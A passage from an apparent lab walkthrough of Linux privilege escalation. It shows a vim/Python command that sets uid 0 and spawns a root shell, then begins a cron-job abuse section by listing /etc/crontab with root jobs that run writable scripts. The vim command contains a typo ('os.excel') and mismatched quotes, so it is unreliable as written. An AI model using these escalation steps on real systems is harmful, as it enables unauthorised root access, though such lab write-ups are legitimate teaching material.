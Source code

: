 In the above example, we can see that vim is also listed so we search for our good old friend GTFObins 
  
![](https://miro.medium.com/v2/resize:fit:875/0*p4WQHkA73-LvGFP4)  
  
And by running 
  
``` 
vim -c `:py3 import os; os.setuid(0); os.excel("/bin/sh", "sh", "-c", "reset; exec sh")' 
``` 
  
We get an elevated shell 
  
# **5. changing the cron jobs file.** 
  
![](https://miro.medium.com/v2/resize:fit:769/0*_ef10nKUwCEaqeWE)  
  
Cron is a command-line utility that is used to create job scheduling in Linux. It is used to automate tasks 
  
We first check for the crontab config in 
  
``` 
/etc/crontab 
  
``` 
  
Below is a crontab log 
  
``` 
$ id 
uid=1001(karen) gid=1001(karen) groups=1001(karen) 
  
``` 
  
``` 
karen@ip-10–10–23–186:~$ cat /etc/crontab 
# /etc/crontab: system-wide crontab 
# Unlike any other crontab you don't have to run the `crontab' 
# command to install the new version when you edit this file 
# and files in /etc/cron.d. These files also have username fields, 
# that none of the other crontabs do. 
SHELL=/bin/sh 
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin 
# Example of job definition: 
# . - - - - - - - - minute (0–59) 
# | . - - - - - - - hour (0–23) 
# | | . - - - - - day of month (1–31) 
# | | | . - - - - month (1–12) OR jan,feb,mar,apr … 
# | | | | . - - day of week (0–6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat 
# | | | | | 
# * * * * * user-name command to be executed 
17 * * * * root cd / && run-parts - report /etc/cron.hourly 
25 6 * * * root test -x /usr/sbin/anacron || ( cd / && run-parts - report /etc/cron.daily ) 
47 6 * * 7 root test -x /usr/sbin/anacron || ( cd / && run-parts - report /etc/cron.weekly ) 
52 6 1 * * root test -x /usr/sbin/anacron || ( cd / && run-parts - report /etc/cron.monthly ) 
# 
* * * * * root /antivirus.sh 
* * * * * root antivirus.sh 
* * * * * root /home/karen/backup.sh 
* * * * * root /tmp/test.p 
``` 
  